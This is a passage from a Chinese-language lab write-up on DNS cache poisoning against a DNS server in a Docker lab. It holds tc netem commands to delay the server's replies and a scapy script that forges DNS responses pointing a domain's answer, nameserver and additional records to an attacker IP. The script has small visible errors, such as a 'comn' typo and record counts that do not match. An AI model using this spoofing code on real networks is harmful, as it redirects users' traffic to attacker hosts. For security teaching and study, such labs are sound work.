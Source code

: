 

​	这里我们引入工具tc来进行延迟发送。详情参考：https://cloud.tencent.com/developer/article/1367795

~~~bash
#在DNS server 上运行
#延迟1s发送	
tc qdisc add dev eth0 root netem delay 1s

#要修改就用下面的语句
tc qdisc change dev eth0 root netem delay 2s



#如果报错：RTNETLINK answers: Operation not permitted
#推出后重新启动
#重启后记得重启bind9服务
exit
docker exec -it --privileged user /bin/bash

~~~



​	为了使能欺骗一整个域而不是单单一个域名，我们需要对任何查询提供伪造答案。为此我们使用scapy 来实现针对授权域的缓存中毒。

首先要弄清楚目标，缓存中毒针对的是DNS 服务器。

参考代码详见`attachment\DNS_Poison.py`

~~~python
#!/usr/bin/python3
from scapy.all import *

user		="172.17.0.2"
DNS_server	="172.17.0.3"
attacker	="172.17.0.4"

def spoof_dns(pkt):
	if (DNS in pkt and 'www.abcd.net' in pkt[DNS].qd.qname):

		# Swap the source and destination IP address
		IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        
		# Swap the source and destination port number
		UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
        
		# The Answer Section
        
		Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',ttl=259200, rdata=attacker)
        
		# The Authority Section
		NSsec1 = DNSRR(rrname='abcd.net', type='NS',ttl=259200, rdata='ns.2004lpx.comn')
        
        
       	# The Additional Section
     
		Addsec1 = DNSRR(rrname='www.2004lpx.net', type='A',ttl=259200, rdata=attacker)
		Addsec2 = DNSRR(rrname='ns.2004lpx.net', type='A',ttl=259200, rdata=attacker)
	# Construct the DNS packet
		DNSpkt = DNS(id=pkt[DNS].id,qd=pkt[DNS].qd,
		aa=1,rd=0,qr=1,qdcount=1,ancount=1,nscount=2,arcount=2,
		an=Anssec,ns=NSsec1,ar=Addsec1/Addsec2)
	
		#an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)
		# Construct the entire IP packet and send it out
		spoofpkt = IPpkt/UDPpkt/DNSpkt
		send(spoofpkt)
~~~